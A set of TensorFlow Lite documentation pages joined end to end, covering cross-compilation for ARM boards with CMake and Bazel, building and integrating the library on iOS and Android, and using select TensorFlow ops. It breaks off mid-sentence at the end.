*   *All TensorFlow models* ***cannot*** *be converted into TensorFlow Lite
    models*, refer to [Operator compatibility](ops_compatibility).

*   *Unsupported on-device training*, however it is on our [Roadmap](roadmap).
# Cross compilation TensorFlow Lite with CMake

This page describes how to build the TensorFlow Lite library for various ARM
devices.

The following instructions have been tested on Ubuntu 16.04.3 64-bit PC (AMD64)
, TensorFlow devel docker image
[tensorflow/tensorflow:devel](https://hub.docker.com/r/tensorflow/tensorflow/tags/).

**Note:** This feature is available since version 2.4.

### Prerequisites

You need CMake installed and downloaded TensorFlow source code. Please check
[Build TensorFlow Lite with CMake](https://www.tensorflow.org/lite/guide/build_cmake)
page for the details.

### Check your target environment

The following examples are tested under Raspberry Pi OS, Ubuntu Server 20.04 LTS
and Mendel Linux 4.0. Depending on your target glibc version and CPU
capabilities, you may need to use different version of toolchain and build
parameters.

#### Checking glibc version

```sh
ldd --version
```

<pre  class="tfo-notebook-code-cell-output">
ldd (Debian GLIBC 2.28-10) 2.28
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
</pre>

#### Checking ABI compatibility

If your target is ARM 32-bit, there are two ABI available depending on VFP
availity. [armhf](https://wiki.debian.org/ArmHardFloatPort) and
[armel](https://wiki.debian.org/ArmEabiPort). This document shows an armhf
example, you need to use different toolchain for armel targets.

#### Checking CPU capability

For ARMv7, you should know target's supported VFP version and NEON availability.

```sh
cat /proc/cpuinfo
```

<pre  class="tfo-notebook-code-cell-output">
processor   : 0
model name  : ARMv7 Processor rev 3 (v7l)
BogoMIPS    : 108.00
Features    : half thumb fastmult vfp edsp neon vfpv3 tls vfpv4 idiva idivt vfpd32 lpae evtstrm crc32
CPU implementer : 0x41
CPU architecture: 7
CPU variant : 0x0
CPU part    : 0xd08
CPU revision    : 3
</pre>

## Build for AArch64 (ARM64)

This instruction shows how to build AArch64 binary which is compatible with
[Coral Mendel Linux 4.0](https://coral.ai/), Raspberry Pi (with
[Ubuntu Server 20.04.01 LTS 64-bit](https://ubuntu.com/download/raspberry-pi)
installed).

#### Download toolchain

These commands install gcc-arm-8.3-2019.03-x86_64-aarch64-linux-gnu toolchain
under ${HOME}/toolchains.

```sh
curl -LO https://storage.googleapis.com/mirror.tensorflow.org/developer.arm.com/media/Files/downloads/gnu-a/8.3-2019.03/binrel/gcc-arm-8.3-2019.03-x86_64-aarch64-linux-gnu.tar.xz
mkdir -p ${HOME}/toolchains
tar xvf gcc-arm-8.3-2019.03-x86_64-aarch64-linux-gnu.tar.xz -C ${HOME}/toolchains
```

**Note:** Binaries built with GCC 8.3 require glibc 2.28 or higher. If your
target has lower glibc version, you need to use older GCC toolchain.

#### Run CMake

```sh
ARMCC_PREFIX=${HOME}/toolchains/gcc-arm-8.3-2019.03-x86_64-aarch64-linux-gnu/bin/aarch64-linux-gnu-
ARMCC_FLAGS="-funsafe-math-optimizations"
cmake -DCMAKE_C_COMPILER=${ARMCC_PREFIX}gcc \
  -DCMAKE_CXX_COMPILER=${ARMCC_PREFIX}g++ \
  -DCMAKE_C_FLAGS="${ARMCC_FLAGS}" \
  -DCMAKE_CXX_FLAGS="${ARMCC_FLAGS}" \
  -DCMAKE_VERBOSE_MAKEFILE:BOOL=ON \
  -DCMAKE_SYSTEM_NAME=Linux \
  -DCMAKE_SYSTEM_PROCESSOR=aarch64 \
  ../tensorflow/lite/
```

**Note:** You can enable GPU delegate with "-DTFLITE_ENABLE_GPU=ON" if your
target device supports OpenCL 1.2 or higher.

## Build for ARMv7 NEON enabled

This instruction shows how to build ARMv7 with VFPv4 and NEON enabled binary
which is compatible with Raspberry Pi 3 and 4.

#### Download toolchain

These commands install gcc-arm-8.3-2019.03-x86_64-arm-linux-gnueabihf toolchain
under ${HOME}/toolchains.

```sh
curl -LO https://storage.googleapis.com/mirror.tensorflow.org/developer.arm.com/media/Files/downloads/gnu-a/8.3-2019.03/binrel/gcc-arm-8.3-2019.03-x86_64-arm-linux-gnueabihf.tar.xz
mkdir -p ${HOME}/toolchains
tar xvf gcc-arm-8.3-2019.03-x86_64-arm-linux-gnueabihf.tar.xz -C ${HOME}/toolchains
```

**Note:** Binaries built with GCC 8.3 require glibc 2.28 or higher. If your
target has lower glibc version, you need to use older GCC toolchain.

#### Run CMake

```sh
ARMCC_FLAGS="-march=armv7-a -mfpu=neon-vfpv4 -funsafe-math-optimizations"
ARMCC_PREFIX=${HOME}/toolchains/gcc-arm-8.3-2019.03-x86_64-arm-linux-gnueabihf/bin/arm-linux-gnueabihf-
cmake -DCMAKE_C_COMPILER=${ARMCC_PREFIX}gcc \
  -DCMAKE_CXX_COMPILER=${ARMCC_PREFIX}g++ \
  -DCMAKE_C_FLAGS="${ARMCC_FLAGS}" \
  -DCMAKE_CXX_FLAGS="${ARMCC_FLAGS}" \
  -DCMAKE_VERBOSE_MAKEFILE:BOOL=ON \
  -DCMAKE_SYSTEM_NAME=Linux \
  -DCMAKE_SYSTEM_PROCESSOR=armv7 \
  ../tensorflow/lite/
```

**Note:** Since ARMv7 architecture is diverse, you may need to update
ARMCC_FLAGS for your target device profiles.

## Build for Raspberry Pi Zero (ARMv6)

This instruction shows how to build ARMv6 binary which is compatible with
Raspberry Pi Zero.

#### Download toolchain

These commands install arm-rpi-linux-gnueabihf toolchain under
${HOME}/toolchains.

```sh
curl -L https://github.com/rvagg/rpi-newer-crosstools/archive/eb68350c5c8ec1663b7fe52c742ac4271e3217c5.tar.gz -o rpi-toolchain.tar.gz
tar xzf rpi-toolchain.tar.gz -C ${HOME}/toolchains
mv ${HOME}/toolchains/rpi-newer-crosstools-eb68350c5c8ec1663b7fe52c742ac4271e3217c5 ${HOME}/toolchains/arm-rpi-linux-gnueabihf
```

#### Run CMake

```sh
ARMCC_PREFIX=${HOME}/toolchains/arm-rpi-linux-gnueabihf/x64-gcc-6.5.0/arm-rpi-linux-gnueabihf/bin/arm-rpi-linux-gnueabihf-
ARMCC_FLAGS="-march=armv6 -mfpu=vfp -funsafe-math-optimizations"
cmake -DCMAKE_C_COMPILER=${ARMCC_PREFIX}gcc \
  -DCMAKE_CXX_COMPILER=${ARMCC_PREFIX}g++ \
  -DCMAKE_C_FLAGS="${ARMCC_FLAGS}" \
  -DCMAKE_CXX_FLAGS="${ARMCC_FLAGS}" \
  -DCMAKE_VERBOSE_MAKEFILE:BOOL=ON \
  -DCMAKE_SYSTEM_NAME=Linux \
  -DCMAKE_SYSTEM_PROCESSOR=armv6 \
  -DTFLITE_ENABLE_XNNPACK=OFF \
  ../tensorflow/lite/
```

**Note:** XNNPACK is disabled since there is no NEON support.
# Build TensorFlow Lite for iOS

This document describes how to build TensorFlow Lite iOS library on your own.
Normally, you do not need to locally build TensorFlow Lite iOS library. If you
just want to use it, the easiest way is using the prebuilt stable or nightly
releases of the TensorFlow Lite CocoaPods. See [iOS quickstart](ios.md) for more
details on how to use them in your iOS projects.

## Building locally

In some cases, you might wish to use a local build of TensorFlow Lite, for
example when you want to make local changes to TensorFlow Lite and test those
changes in your iOS app or you prefer using static framework to our provided
dynamic one. To create a universal iOS framework for TensorFlow Lite locally,
you need to build it using Bazel on a macOS machine.

### Install Xcode

If you have not already, you will need to install Xcode 8 or later and the tools
using `xcode-select`:

```sh
xcode-select --install
```

If this is a new install, you will need to accept the license agreement for all
users with the following command:

```sh
sudo xcodebuild -license accept
```

### Install Bazel

Bazel is the primary build system for TensorFlow. Install Bazel as per the
[instructions on the Bazel website][bazel-install]. Make sure to choose a
version between `_TF_MIN_BAZEL_VERSION` and `_TF_MAX_BAZEL_VERSION` in
[`configure.py` file][configure-py] at the root of `tensorflow` repository.

### Configure WORKSPACE and .bazelrc

Run the `./configure` script in the root TensorFlow checkout directory, and
answer "Yes" when the script asks if you wish to build TensorFlow with iOS
support.

### Build TensorFlowLiteC dynamic framework (recommended)

Note: This step is not necessary if (1) you are using Bazel for your app, or (2)
you only want to test local changes to the Swift or Objective-C APIs. In these
cases, skip to the [Use in your own application](#use_in_your_own_application)
section below.

Once Bazel is properly configured with iOS support, you can build the
`TensorFlowLiteC` framework with the following command.

```sh
bazel build --config=ios_fat -c opt \
  //tensorflow/lite/ios:TensorFlowLiteC_framework
```

This command will generate the `TensorFlowLiteC_framework.zip` file under
`bazel-bin/tensorflow/lite/ios/` directory under your TensorFlow root directory.
By default, the generated framework contains a "fat" binary, containing armv7,
arm64, and x86_64 (but no i386). To see the full list of build flags used when
you specify `--config=ios_fat`, please refer to the iOS configs section in the
[`.bazelrc` file][bazelrc].

### Build TensorFlowLiteC static framework

By default, we only distribute the dynamic framework via Cocoapods. If you want
to use the static framework instead, you can build the `TensorFlowLiteC` static
framework with the following command:

```
bazel build --config=ios_fat -c opt \
  //tensorflow/lite/ios:TensorFlowLiteC_static_framework
```

The command will generate a file named `TensorFlowLiteC_static_framework.zip`
under `bazel-bin/tensorflow/lite/ios/` directory under your TensorFlow root
directory. This static framework can be used in the exact same way as the
dynamic one.

### Selectively build TFLite frameworks

You can build smaller frameworks targeting only a set of models using selective
build, which will skip unused operations in your model set and only include the
op kernels required to run the given set of models. The command is as following:

```sh
bash tensorflow/lite/ios/build_frameworks.sh \
  --input_models=model1.tflite,model2.tflite \
  --target_archs=x86_64,armv7,arm64
```

The above command will generate the static framework
`bazel-bin/tensorflow/lite/ios/tmp/TensorFlowLiteC_framework.zip` for TensorFlow
Lite built-in and custom ops; and optionally, generates the static framework
`bazel-bin/tensorflow/lite/ios/tmp/TensorFlowLiteSelectTfOps_framework.zip` if
your models contain Select TensorFlow ops. Note that the `--target_archs` flag
can be used to specify your deployment architectures.

## Use in your own application

### CocoaPods developers

There are three CocoaPods for TensorFlow Lite:

*   `TensorFlowLiteSwift`: Provides the Swift APIs for TensorFlow Lite.
*   `TensorFlowLiteObjC`: Provides the Objective-C APIs for TensorFlow Lite.
*   `TensorFlowLiteC`: Common base pod, which embeds the TensorFlow Lite core
    runtime and exposes the base C APIs used by the above two pods. Not meant to
    be directly used by users.

As a developer, you should choose either `TensorFlowLiteSwift` or
`TensorFlowLiteObjC` pod based on the language in which your app is written, but
not both. The exact steps for using local builds of TensorFlow Lite differ,
depending on which exact part you would like to build.

#### Using local Swift or Objective-C APIs

If you are using CocoaPods, and only wish to test some local changes to the
TensorFlow Lite's [Swift APIs][swift-api] or [Objective-C APIs][objc-api],
follow the steps here.

1.  Make changes to the Swift or Objective-C APIs in your `tensorflow` checkout.

1.  Open the `TensorFlowLite(Swift|ObjC).podspec` file, and update this line: \
    `s.dependency 'TensorFlowLiteC', "#{s.version}"` \
    to be: \
    `s.dependency 'TensorFlowLiteC', "~> 0.0.1-nightly"` \
    This is to ensure that you are building your Swift or Objective-C APIs
    against the latest available nightly version of `TensorFlowLiteC` APIs
    (built every night between 1-4AM Pacific Time) rather than the stable
    version, which may be outdated compared to your local `tensorflow` checkout.
    Alternatively, you could choose to publish your own version of
    `TensorFlowLiteC` and use that version (see
    [Using local TensorFlow Lite core](#using_local_tensorflow_lite_core)
    section below).

1.  In the `Podfile` of your iOS project, change the dependency as follows to
    point to the local path to your `tensorflow` root directory. \
    For Swift: \
    `pod 'TensorFlowLiteSwift', :path => '<your_tensorflow_root_dir>'` \
    For Objective-C: \
    `pod 'TensorFlowLiteObjC', :path => '<your_tensorflow_root_dir>'`

1.  Update your pod installation from your iOS project root directory. \
    `$ pod update`

1.  Reopen the generated workspace (`<project>.xcworkspace`) and rebuild your
    app within Xcode.

#### Using local TensorFlow Lite core

You can set up a private CocoaPods specs repository, and publish your custom
`TensorFlowLiteC` framework to your private repo. You can copy this
[podspec file][tflite-podspec] and modify a few values:

```ruby
  ...
  s.version      = <your_desired_version_tag>
  ...
  # Note the `///`, two from the `file://` and one from the `/path`.
  s.source       = { :http => "file:///path/to/TensorFlowLiteC_framework.zip" }
  ...
  s.vendored_frameworks = 'TensorFlowLiteC.framework'
  ...
```

After creating your own `TensorFlowLiteC.podspec` file, you can follow the
[instructions on using private CocoaPods][private-cocoapods] to use it in your
own project. You can also modify the `TensorFlowLite(Swift|ObjC).podspec` to
point to your custom `TensorFlowLiteC` pod and use either Swift or Objective-C
pod in your app project.

### Bazel developers

If you are using Bazel as the main build tool, you can simply add
`TensorFlowLite` dependency to your target in your `BUILD` file.

For Swift:

```python
swift_library(
  deps = [
      "//tensorflow/lite/swift:TensorFlowLite",
  ],
)
```

For Objective-C:

```python
objc_library(
  deps = [
      "//tensorflow/lite/objc:TensorFlowLite",
  ],
)
```

When you build your app project, any changes to the TensorFlow Lite library will
be picked up and built into your app.

### Modify Xcode project settings directly

It is highly recommended to use CocoaPods or Bazel for adding TensorFlow Lite
dependency into your project. If you still wish to add `TensorFlowLiteC`
framework manually, you'll need to add the `TensorFlowLiteC` framework as an
embedded framework to your application project. Unzip the
`TensorFlowLiteC_framework.zip` generated from the above build to get the
`TensorFlowLiteC.framework` directory. This directory is the actual framework
which Xcode can understand.

Once you've prepared the `TensorFlowLiteC.framework`, first you need to add it
as an embedded binary to your app target. The exact project settings section for
this may differ depending on your Xcode version.

*   Xcode 11: Go to the 'General' tab of the project editor for your app target,
    and add the `TensorFlowLiteC.framework` under 'Frameworks, Libraries, and
    Embedded Content' section.
*   Xcode 10 and below: Go to the 'General' tab of the project editor for your
    app target, and add the `TensorFlowLiteC.framework` under 'Embedded
    Binaries'. The framework should also be added automatically under 'Linked
    Frameworks and Libraries' section.

When you add the framework as an embedded binary, Xcode would also update the
'Framework Search Paths' entry under 'Build Settings' tab to include the parent
directory of your framework. In case this does not happen automatically, you
should manually add the parent directory of the `TensorFlowLiteC.framework`
directory.

Once these two settings are done, you should be able to import and call the
TensorFlow Lite's C API, defined by the header files under
`TensorFlowLiteC.framework/Headers` directory.

[bazel-install]: https://docs.bazel.build/versions/master/install-os-x.html
[bazelrc]: https://github.com/tensorflow/tensorflow/blob/master/.bazelrc
[configure-py]: https://github.com/tensorflow/tensorflow/blob/master/configure.py
[objc-api]: https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/objc
[private-cocoapods]: https://guides.cocoapods.org/making/private-cocoapods.html
[swift-api]: https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/swift
[tflite-podspec]: https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/ios/TensorFlowLiteC.podspec
# iOS quickstart

To get started with TensorFlow Lite on iOS, we recommend exploring the following
example:

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/ios">iOS
image classification example</a>

For an explanation of the source code, you should also read
[TensorFlow Lite iOS image classification](https://github.com/tensorflow/examples/blob/master/lite/examples/image_classification/ios/EXPLORE_THE_CODE.md).

This example app uses
[image classification](https://www.tensorflow.org/lite/models/image_classification/overview)
to continuously classify whatever it sees from the device's rear-facing camera,
displaying the top most probable classifications. It allows the user to choose
between a floating point or
[quantized](https://www.tensorflow.org/lite/performance/post_training_quantization)
model and select the number of threads to perform inference on.

Note: Additional iOS applications demonstrating TensorFlow Lite in a variety of
use cases are available in [Examples](https://www.tensorflow.org/lite/examples).

## Add TensorFlow Lite to your Swift or Objective-C project

TensorFlow Lite offers native iOS libraries written in
[Swift](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/swift)
and
[Objective-C](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/objc).
Start writing your own iOS code using the
[Swift image classification example](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/ios)
as a starting point.

The sections below demonstrate how to add TensorFlow Lite Swift or Objective-C
to your project:

### CocoaPods developers

In your `Podfile`, add the TensorFlow Lite pod. Then, run `pod install`.

#### Swift

```ruby
use_frameworks!
pod 'TensorFlowLiteSwift'
```

#### Objective-C

```ruby
pod 'TensorFlowLiteObjC'
```

#### Specifying versions

There are stable releases, and nightly releases available for both
`TensorFlowLiteSwift` and `TensorFlowLiteObjC` pods. If you do not specify a
version constraint as in the above examples, CocoaPods will pull the latest
stable release by default.

You can also specify a version constraint. For example, if you wish to depend on
version 2.0.0, you can write the dependency as:

```ruby
pod 'TensorFlowLiteSwift', '~> 2.0.0'
```

This will ensure the latest available 2.x.y version of the `TensorFlowLiteSwift`
pod is used in your app. Alternatively, if you want to depend on the nightly
builds, you can write:

```ruby
pod 'TensorFlowLiteSwift', '~> 0.0.1-nightly'
```

From 2.4.0 version and latest nightly releases, by default
[GPU](https://www.tensorflow.org/lite/performance/gpu) and
[Core ML delegates](https://www.tensorflow.org/lite/performance/coreml_delegate)
are excluded from the pod to reduce the binary size. You can include them by
specifying subspec:

```ruby
pod 'TensorFlowLiteSwift', '~> 0.0.1-nightly', :subspecs => ['CoreML', 'Metal']
```

This will allow you to use the latest features added to TensorFlow Lite. Note
that once the `Podfile.lock` file is created when you run `pod install` command
for the first time, the nightly library version will be locked at the current
date's version. If you wish to update the nightly library to the newer one, you
should run `pod update` command.

For more information on different ways of specifying version constraints, see
[Specifying pod versions](https://guides.cocoapods.org/using/the-podfile.html#specifying-pod-versions).

### Bazel developers

In your `BUILD` file, add the `TensorFlowLite` dependency to your target.

#### Swift

```python
swift_library(
  deps = [
      "//tensorflow/lite/swift:TensorFlowLite",
  ],
)
```

#### Objective-C

```python
objc_library(
  deps = [
      "//tensorflow/lite/objc:TensorFlowLite",
  ],
)
```

#### C/C++ API

Alternatively, you can use
[C API](https://www.tensorflow.org/code/tensorflow/lite/c/c_api.h)
or [C++ API](https://tensorflow.org/lite/api_docs/cc)

```python
# Using C API directly
objc_library(
  deps = [
      "//tensorflow/lite/c:c_api",
  ],
)

# Using C++ API directly
objc_library(
  deps = [
      "//third_party/tensorflow/lite:framework",
  ],
)
```

### Import the library

For Swift files, import the TensorFlow Lite module:

```swift
import TensorFlowLite
```

For Objective-C files, import the umbrella header:

```objectivec
#import "TFLTensorFlowLite.h"
```

Or, the module if you set `CLANG_ENABLE_MODULES = YES` in your Xcode project:

```objectivec
@import TFLTensorFlowLite;
```

Note: For CocoaPods developers who want to import the Objective-C TensorFlow
Lite module, you must also include `use_frameworks!` in your `Podfile`.
# Build TensorFlow Lite for ARM boards

This page describes how to build the TensorFlow Lite libraries for ARM-based
computers.

TensorFlow Lite supports two build systems and supported features from each
build system are not identical. Check the following table to pick a proper build
system.

Feature                                                                                   | Bazel                        | CMake
----------------------------------------------------------------------------------------- | ---------------------------- | -----
Predefined toolchains                                                                     | armhf, aarch64               | armel, armhf, aarch64
Custom toolchains                                                                         | harder to use                | easy to use
[Select TF ops](https://www.tensorflow.org/lite/guide/ops_select)                         | supported                    | not supported
[GPU delegate](https://www.tensorflow.org/lite/performance/gpu)                           | only available for Android   | any platform that supports OpenCL
XNNPack                                                                                   | supported                    | supported
[Python Wheel](https://www.tensorflow.org/lite/guide/build_cmake_pip)                     | supported                    | supported
[C API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/c/README.md) | supported                    | [supported](https://www.tensorflow.org/lite/guide/build_cmake#build_tensorflow_lite_c_library)
[C++ API](https://www.tensorflow.org/lite/guide/inference#load_and_run_a_model_in_c)      | supported for Bazel projects | supported for CMake projects

## Cross-compilation for ARM with CMake

If you have a CMake project or if you want to use a custom toolchain, you'd
better use CMake for cross compilation. There is a separate
[Cross compilation TensorFlow Lite with CMake](https://www.tensorflow.org/lite/guide/build_cmake_arm)
page available for this.

## Cross-compilation for ARM with Bazel

If you have a Bazel project or if you want to use TF ops, you'd better use Bazel
build system. You'll use the integrated
[ARM GCC 8.3 toolchains](https://github.com/tensorflow/toolchains/tree/master/toolchains/embedded/arm-linux)
with Bazel to build an ARM32/64 shared library.

| Target Architecture | Bazel Configuration     | Compatible Devices         |
| ------------------- | ----------------------- | -------------------------- |
| armhf (ARM32)       | --config=elinux_armhf   | RPI3, RPI4 with 32 bit     |
:                     :                         : Raspberry Pi OS            :
| AArch64 (ARM64)     | --config=elinux_aarch64 | Coral, RPI4 with Ubuntu 64 |
:                     :                         : bit                        :

Note: The generated shared library requires glibc 2.28 or higher to run.

The following instructions have been tested on Ubuntu 16.04.3 64-bit PC (AMD64)
and TensorFlow devel docker image
[tensorflow/tensorflow:devel](https://hub.docker.com/r/tensorflow/tensorflow/tags/).

To cross compile TensorFlow Lite with Bazel, follow the steps:

#### Step 1. Install Bazel

Bazel is the primary build system for TensorFlow. Install the latest version of
the [Bazel build system](https://bazel.build/versions/master/docs/install.html).

**Note:** If you're using the TensorFlow Docker image, Bazel is already
available.

#### Step 2. Clone TensorFlow repository

```sh
git clone https://github.com/tensorflow/tensorflow.git tensorflow_src
```

**Note:** If you're using the TensorFlow Docker image, the repo is already
provided in `/tensorflow_src/`.

#### Step 3. Build ARM binary

##### C library

```bash
bazel build --config=elinux_aarch64 -c opt //tensorflow/lite/c:libtensorflowlite_c.so
```

You can find a shared library in:
`bazel-bin/tensorflow/lite/c/libtensorflowlite_c.so`.

**Note:** Use `elinux_armhf` for
[32bit ARM hard float](https://wiki.debian.org/ArmHardFloatPort) build.

Check
[TensorFlow Lite C API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/c/README.md)
page for the detail.

##### C++ library

```bash
bazel build --config=elinux_aarch64 -c opt //tensorflow/lite:libtensorflowlite.so
```

You can find a shared library in:
`bazel-bin/tensorflow/lite/libtensorflowlite.so`.

Currently, there is no straightforward way to extract all header files needed,
so you must include all header files in tensorflow/lite/ from the TensorFlow
repository. Additionally, you will need header files from FlatBuffers and
Abseil.

##### Etc

You can also build other Bazel targets with the toolchain. Here are some useful
targets.

*   //tensorflow/lite/tools/benchmark:benchmark_model
*   //tensorflow/lite/examples/label_image:label_image
# Build TensorFlow Lite for Android

This document describes how to build TensorFlow Lite Android library on your
own. Normally, you do not need to locally build TensorFlow Lite Android library.
If you just want to use it, the easiest way is using the
[TensorFlow Lite AAR hosted at MavenCentral](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite).
See [Android quickstart](../guide/android.md) for more details on how to use
them in your Android projects.

## Use Nightly Snapshots

To use nightly snapshots, add the following repo to your root Gradle build
config.

```build
allprojects {
    repositories {      // should be already there
        mavenCentral()  // should be already there
        maven {         // add this repo to use snapshots
          name 'ossrh-snapshot'
          url 'https://oss.sonatype.org/content/repositories/snapshots'
        }
    }
}
```

## Build TensorFlow Lite locally

In some cases, you might wish to use a local build of TensorFlow Lite. For
example, you may be building a custom binary that includes
[operations selected from TensorFlow](https://www.tensorflow.org/lite/guide/ops_select),
or you may wish to make local changes to TensorFlow Lite.

### Set up build environment using Docker

*   Download the Docker file. By downloading the Docker file, you agree that the
    following terms of service govern your use thereof:

*By clicking to accept, you hereby agree that all use of the Android Studio and
Android Native Development Kit will be governed by the Android Software
Development Kit License Agreement available at
https://developer.android.com/studio/terms (such URL may be updated or changed
by Google from time to time).*

<!-- mdformat off(devsite fails if there are line-breaks in templates) -->

You can download the Docker file
<a href="https://raw.githubusercontent.com/tensorflow/tensorflow/master/tensorflow/tools/dockerfiles/tflite-android.Dockerfile">here</a>
 You must acknowledge the terms of service to download the
file.
<a class="button button-blue devsite-acknowledgement-link" data-globally-unique-wall-id="tflite-android-tos">Acknowledge</a>

<!-- mdformat on -->

*   You can optionally change the Android SDK or NDK version. Put the downloaded
    Docker file in an empty folder and build your docker image by running:

```shell
docker build . -t tflite-builder -f tflite-android.Dockerfile
```

*   Start the docker container interactively by mounting your current folder to
    /host_dir inside the container (note that /tensorflow_src is the TensorFlow
    repository inside the container):

```shell
docker run -it -v $PWD:/host_dir tflite-builder bash
```

If you use PowerShell on Windows, replace "$PWD" with "pwd".

If you would like to use a TensorFlow repository on the host, mount that host
directory instead (-v hostDir:/host_dir).

*   Once you are inside the container, you can run the following to download
    additional Android tools and libraries (note that you may need to accept the
    license):

```shell
sdkmanager \
  "build-tools;${ANDROID_BUILD_TOOLS_VERSION}" \
  "platform-tools" \
  "platforms;android-${ANDROID_API_LEVEL}"
```

Now you should proceed to the [Configure WORKSPACE and .bazelrc](#configure_workspace_and_bazelrc) section to configure the build settings.

After you finish building the libraries, you can copy them to /host_dir
inside the container so that you can access them on the host.

### Set up build environment without Docker

#### Install Bazel and Android Prerequisites

Bazel is the primary build system for TensorFlow. To build with it, you must
have it and the Android NDK and SDK installed on your system.

1.  Install the latest version of the [Bazel build system](https://bazel.build/versions/master/docs/install.html).
2.  The Android NDK is required to build the native (C/C++) TensorFlow Lite
    code. The current recommended version is 19c, which may be found
    [here](https://developer.android.com/ndk/downloads/older_releases.html#ndk-19c-downloads).
3.  The Android SDK and build tools may be obtained
    [here](https://developer.android.com/tools/revisions/build-tools.html), or
    alternatively as part of
    [Android Studio](https://developer.android.com/studio/index.html). Build
    tools API >= 23 is the recommended version for building TensorFlow Lite.

### Configure WORKSPACE and .bazelrc

This is a one-time configuration step that is required to build the TF Lite
libraries. Run the `./configure` script in the root TensorFlow checkout
directory, and answer "Yes" when the script asks to interactively configure the `./WORKSPACE`
for Android builds. The script will attempt to configure settings using the
following environment variables:

*   `ANDROID_SDK_HOME`
*   `ANDROID_SDK_API_LEVEL`
*   `ANDROID_NDK_HOME`
*   `ANDROID_NDK_API_LEVEL`

If these variables aren't set, they must be provided interactively in the script
prompt. Successful configuration should yield entries similar to the following
in the `.tf_configure.bazelrc` file in the root folder:

```shell
build --action_env ANDROID_NDK_HOME="/usr/local/android/android-ndk-r19c"
build --action_env ANDROID_NDK_API_LEVEL="21"
build --action_env ANDROID_BUILD_TOOLS_VERSION="28.0.3"
build --action_env ANDROID_SDK_API_LEVEL="23"
build --action_env ANDROID_SDK_HOME="/usr/local/android/android-sdk-linux"
```

### Build and install

Once Bazel is properly configured, you can build the TensorFlow Lite AAR from
the root checkout directory as follows:

```sh
bazel build -c opt --fat_apk_cpu=x86,x86_64,arm64-v8a,armeabi-v7a \
  --host_crosstool_top=@bazel_tools//tools/cpp:toolchain \
  //tensorflow/lite/java:tensorflow-lite
```

This will generate an AAR file in `bazel-bin/tensorflow/lite/java/`. Note
that this builds a "fat" AAR with several different architectures; if you don't
need all of them, use the subset appropriate for your deployment environment.

You can build smaller AAR files targeting only a set of models as follows:

```sh
bash tensorflow/lite/tools/build_aar.sh \
  --input_models=model1,model2 \
  --target_archs=x86,x86_64,arm64-v8a,armeabi-v7a
```

Above script will generate the `tensorflow-lite.aar` file and optionally the
`tensorflow-lite-select-tf-ops.aar` file if one of the models is using
Tensorflow ops. For more details, please see the
[Reduce TensorFlow Lite binary size](../guide/reduce_binary_size.md) section.

#### Add AAR directly to project

Move the `tensorflow-lite.aar` file into a directory called `libs` in your
project. Modify your app's `build.gradle` file to reference the new directory
and replace the existing TensorFlow Lite dependency with the new local library,
e.g.:

```
allprojects {
    repositories {
        mavenCentral()
        maven {  // Only for snapshot artifacts
            name 'ossrh-snapshot'
            url 'https://oss.sonatype.org/content/repositories/snapshots'
        }
        flatDir {
            dirs 'libs'
        }
    }
}

dependencies {
    compile(name:'tensorflow-lite', ext:'aar')
}
```

#### Install AAR to local Maven repository

Execute the following command from your root checkout directory:

```sh
mvn install:install-file \
  -Dfile=bazel-bin/tensorflow/lite/java/tensorflow-lite.aar \
  -DgroupId=org.tensorflow \
  -DartifactId=tensorflow-lite -Dversion=0.1.100 -Dpackaging=aar
```

In your app's `build.gradle`, ensure you have the `mavenLocal()` dependency and
replace the standard TensorFlow Lite dependency with the one that has support
for select TensorFlow ops:

```
allprojects {
    repositories {
        mavenCentral()
        maven {  // Only for snapshot artifacts
            name 'ossrh-snapshot'
            url 'https://oss.sonatype.org/content/repositories/snapshots'
        }
        mavenLocal()
    }
}

dependencies {
    implementation 'org.tensorflow:tensorflow-lite:0.1.100'
}
```

Note that the `0.1.100` version here is purely for the sake of
testing/development. With the local AAR installed, you can use the standard
[TensorFlow Lite Java inference APIs](../guide/inference.md) in your app code.
# Select TensorFlow operators

Since the TensorFlow Lite builtin operator library only supports a limited
number of TensorFlow operators, not every model is convertible. For details,
refer to [operator compatibility](ops_compatibility.md).

To allow conversion, users can enable the usage of
[certain TensorFlow ops](op_select_allowlist.md) in their TensorFlow Lite model.
However, running TensorFlow Lite models with TensorFlow ops requires pulling in
the core TensorFlow runtime, which increases the TensorFlow Lite interpreter
binary size. For Android, you can avoid this by selectively building only
required Tensorflow ops. For the details, refer to
[reduce binary size](../guide/reduce_binary_size.md).

This document outlines how to [convert](#convert_a_model) and
[run](#run_inference) a TensorFlow Lite model containing TensorFlow ops on a
platform of your choice. It also discusses
[performance and size metrics](#metrics) and
[known limitations](#known_limitations).

## Convert a model

The following example shows how to generate a TensorFlow Lite model with select
TensorFlow ops.

```python
import tensorflow as tf

converter = tf.lite.TFLiteConverter.from_saved_model(saved_model_dir)
converter.target_spec.supported_ops = [
  tf.lite.OpsSet.TFLITE_BUILTINS, # enable TensorFlow Lite ops.
  tf.lite.OpsSet.SELECT_TF_OPS # enable TensorFlow ops.
]
tflite_model = converter.convert()
open("converted_model.tflite", "wb").write(tflite_model)
```

## Run Inference

When using a TensorFlow Lite model that has been converted with support for
select TensorFlow ops, the client must also use a TensorFlow Lite runtime that
includes the necessary library of TensorFlow ops.

### Android AAR

To reduce the binary size, please build your own custom AAR files as guided in
the [next section](#building-the-android-aar). If the binary size is not a
considerable concern, we recommend using the prebuilt
[AAR with TensorFlow ops hosted at MavenCentral](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite-select-tf-ops).

You can specify this in your `build.gradle` dependencies by adding it alongside
the standard TensorFlow Lite AAR as follows:

```build
dependencies {
    implementation 'org.tensorflow:tensorflow-lite:0.0.0-nightly-SNAPSHOT'
    // This dependency adds the necessary TF op support.
    implementation 'org.tensorflow:tensorflow-lite-select-tf-ops:0.0.0-nightly-SNAPSHOT'
}
```

To use nightly snapshots, make sure that you have added
